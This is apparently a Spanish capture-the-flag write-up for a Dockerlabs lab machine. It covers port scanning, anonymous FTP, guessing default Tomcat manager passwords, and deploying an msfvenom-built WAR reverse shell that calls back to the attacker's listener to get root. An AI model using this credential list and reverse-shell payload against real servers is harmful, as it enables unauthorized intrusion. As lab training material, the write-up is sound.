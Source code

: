 # Máquina -Pn

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

***

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT     STATE SERVICE    REASON
21/tcp   open  ftp        syn-ack
8080/tcp open  http-proxy syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p 172.17.0.2 -oN targeted
________________________________________________
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              74 Apr 19 07:32 tomcat.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
8080/tcp open  http    Apache Tomcat 9.0.88
|_http-title: Apache Tomcat/9.0.88
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
```

Nos reporta que esta habilitado el login para**Anonymous** en el servicio **ftp**.

```shell
ftp 172.17.0.2
anonymous
---------------------
230 Login successful.
ftp> 
```

```shell
ls
------------
-rw-r--r--    1 0        0              74 Apr 19 07:32 tomcat.txt
```

Nos descargamos el **.txt** que hay con **get**:

```shell
get tomcat.txt
quit
cat tomcat.txt
---------------------------
Hello tomcat, can you configure the tomcat server? I lost the password...
```

Es posible que **tomcat** sea el usuario que necesitaremos en el servicio que corre por el puerto **8080**.

***

## Explotación

Al hacer click en "**manager webapp**" nos aparece un panel de login en el navegador para poder acceder.

![Pasted image 20240419200751](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/925ef76e-65ea-48fb-b7dc-9717450b6804)

Probamos contraseñas por defecto para **tomcat**:

```
admin:admin
tomcat:tomcat
admin:
admin:s3cr3t
tomcat:s3cr3t
admin:tomcat
```

Las credenciales **tomcat:s3cr3t** nos dan resultado

Logramos acceder al panel de administración de **tomcat**. Ahora tenemos que conseguir acceso a la máquina, y lo podemos hacer mediante un paquete "**.war**" malicioso. Que nos devolverá una **Reverse shell**. Lo crearemos fácilmente con **msfvenom**:

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f war -o RevShell.war
```

Siendo la 172.17.0.1 la IP de nuestra máquina atacante y 443 el puerto que abriremos. Nos ponemos en escucha con **netcat**:

```shell
sudo nc -nlvp 443
```

En el panel de administración, vamos al apartado **WAR file to deploy**, seleccionamos nuestra **RevShell.war** y la subimos..

![Pasted image 20240419195659](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/45f33359-5bbc-40ec-8a3a-95927315ddc6)

Hacemos click en el nuevo paquete que ya nos aparece arriba y nos devuelve la conexión a nuestra máquina atacante.

![Pasted image 20240419195923](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/691173fa-5721-4927-8497-b6c9e420d1b4)

Estamos dentro !

Y además como el usuario que corre el servicio es root, hemos logrado el nivel de privilegios máximo !

```shell
whoami
----------------
root
```
